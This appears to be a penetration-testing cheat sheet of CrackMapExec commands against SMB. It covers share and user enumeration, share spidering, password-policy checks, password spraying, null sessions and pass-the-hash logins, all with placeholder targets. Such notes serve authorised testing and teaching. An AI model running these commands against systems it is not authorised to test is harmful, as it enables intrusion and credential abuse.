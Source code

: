 # CrackMapExec
[URL] (https://github.com/byt3bl33d3r/CrackMapExec)

## Enumerate SMB Shares
```
[Enumerated SMB Shares] $crackmapexec smb <ip address> --shares -u <username> -p <password>
[Enumerated SMB Shares (alternative)] $crackmapexec smb <ip address> --shares -u <username> -p '<password>'
```

## SMB with Spider_Plus module
```
[First, identify the shares] $crackmapexec smb <ip address> -u <username> -p <password> --shares
[Spider the shares] $crackmapexec smb <ip address> -u <username> -p <password> -M spider_plus 'share_name' 
```

## SMB Users
```
crackmapexec smb <target> --users
crackmapexec smb <target> -u username -p password --users
```

## SMB Groups
```
crackmapexec smb <target> -u <username> -p <password> --groups
```

## SMB Loggedon Users
```
crackmapexec smb <target> -u <username> -p <password> --loggedon-users
```

## Enumerate Password Policy
```
[Password Policy] $crackmapexec smb --pass-pol <ipaddress>
```

## Password Spray Users
```
[Password Spray User List and Password] $crackmapexec smb <ip address> -u <users.lst> -p <password> --continue-on-success
```

## Null Session
```
crackmapexec smb <target(s)> -u '' -p ''
```

## Pass the Hash
```
crackmapexec smb <target(s)> -u username -H LMHASH:NTHASH
crackmapexec smb <target(s)> -u username -H NTHASH
